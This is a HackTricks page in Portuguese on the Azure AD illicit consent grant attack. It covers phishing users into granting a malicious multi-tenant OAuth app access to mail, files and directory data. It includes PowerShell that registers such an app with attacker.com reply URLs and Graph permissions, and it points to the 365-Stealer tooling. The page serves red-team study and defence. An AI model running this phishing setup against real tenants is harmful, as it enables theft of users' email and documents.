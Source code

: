 # Az - Concessão de Consentimento Ilícita

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Phishing de Aplicativos OAuth

**Aplicações Azure** pedem permissões para acessar os **dados do usuário** (informações básicas, mas também acesso a documentos, enviar e-mails...).\
Se **permitido**, um usuário normal só pode conceder consentimento para permissões de **"Baixo Impacto"**. Em **todos os outros** casos, **é necessário o consentimento do administrador**.\
`GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` e uma função personalizada incluindo `permissão para conceder permissões a aplicações` podem fornecer consentimento em todo o tenant.

Apenas permissões que **não requerem consentimento do administrador** são classificadas como de **baixo impacto**. Estas são permissões necessárias para **login básico são openid, profile, email, User.Read e offline_access**. Se uma **organização** **permite** consentimento do usuário para **todas as aplicações**, um funcionário pode conceder consentimento a uma aplicação para **ler o acima do seu perfil**.

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Portanto, um atacante poderia preparar uma **Aplicação maliciosa** e com um **phishing**, fazer o usuário **aceitar a Aplicação e roubar seus dados**.

### Verificar se os usuários têm permissão para consentir

Verifique se os usuários têm permissão para consentir a aplicações:

{% code overflow="wrap" %}
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
{% endcode %}

* **Desativar consentimento do usuário**: Usuários não podem conceder permissões a aplicativos.
* **Usuários podem consentir com aplicativos de editores verificados ou da sua organização, mas apenas para permissões que você selecionar**: Todos os usuários só podem consentir com aplicativos que foram publicados por um editor verificado e aplicativos que estão registrados no seu tenant
* **Usuários podem consentir com todos os aplicativos**: permite que todos os usuários consintam com qualquer permissão que não exija consentimento do administrador,
* **Política de consentimento de aplicativo personalizada**

## **O que é Ataque de Concessão de Consentimento Ilícito?**

Em um ataque de concessão de consentimento ilícito, o atacante cria um **aplicativo registrado no Azure que solicita acesso a dados como informações de contato, e-mail ou documentos**. O atacante então engana um usuário final para conceder consentimento ao aplicativo para que o atacante possa acessar os dados aos quais o usuário-alvo tem acesso. Depois que o aplicativo recebeu consentimento, ele tem acesso ao nível da conta do usuário aos dados sem a necessidade de uma conta organizacional.

Em palavras simples, quando a vítima clica naquele belo botão azul de "Aceitar", o Azure AD envia um token para o site de terceiros que pertence a um atacante, onde o atacante usará o token para realizar ações em nome das vítimas, como acessar todos os Arquivos, Ler E-mails, Enviar E-mails etc.

## **Fluxo de Ataque**

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

Para realizar este ataque contra a empresa "ecorp", o atacante poderia registrar um domínio com o nome "safedomainlogin.com" e criar um subdomínio ["ecorp.safedomainlogin.com"](http://ecorp.safedomainlogin.com/) onde eles **hospedaram o aplicativo para capturar o código de autorização** e depois solicitar os tokens de acesso.

Em seguida, registre um Aplicativo Multi-Tenant no seu Tenant do Azure AD e nomeie-o como "ecorp" e adicione a URL de Redirecionamento que aponta para o "ecorp.safedomainlogin.com", que hospeda um aplicativo para capturar o código de autorização.

O atacante também cria um novo segredo de cliente e adiciona algumas **permissões** de API, como `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read` no aplicativo. Assim, uma vez que o **usuário concede o consentimento ao aplicativo**, o atacante pode **extrair** as **informações sensíveis** em nome do usuário.

O atacante finalmente cria o **link** que continha o ID do cliente do aplicativo malicioso e **compartilha** o link com os **usuários-alvo** para obter o consentimento deles.

## 365-Stealer

Você pode realizar este ataque com [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer).

Como etapa extra, se você tem algum **acesso sobre um usuário na organização vítima**, você pode verificar se a política permitirá que ele **aceite aplicativos**:
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("test@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# If "ManagePermissionGrantsForSelf.microsoft-user-default-legacy", he can
```
Para este ataque, você precisará criar um **novo App no seu Tenant do Azure** (em App registrations) com, por exemplo, as seguintes permissões:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All` está dentro de `Microsoft Graph` em `Permissões delegadas`. (Permissões de aplicativo sempre precisarão de aprovação extra).

* `User.ReadBasic.All` é a permissão que permitirá a você **ler informações de todos os usuários** na organização, se concedida.
* Lembre-se de que apenas `GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` e uma função personalizada incluindo `permissão para conceder permissões a aplicativos` podem fornecer consentimento em todo o tenant. Portanto, você deve **phish um usuário com um desses papéis** se quiser que ele aprove um **App que requer consentimento do administrador**.

Você também pode criar um App via cli com:

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

Verifique [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) para aprender como configurá-lo.

{% hint style="warning" %}
Observe que o **token de acesso** obtido será para o **ponto de extremidade graph** com os escopos: `User.Read` e `User.ReadBasic.All` (as permissões solicitadas). Você não poderá realizar outras ações (mas essas são suficientes para **baixar informações sobre todos os usuários** na organização).
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

Você também pode usar esta ferramenta para realizar este ataque.

## Pós-Exploração

Uma vez que você tenha acesso ao usuário, você pode fazer coisas como roubar documentos sensíveis e até mesmo fazer upload de arquivos de documentos com backdoor.

## Referências

* Este post foi copiado de [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
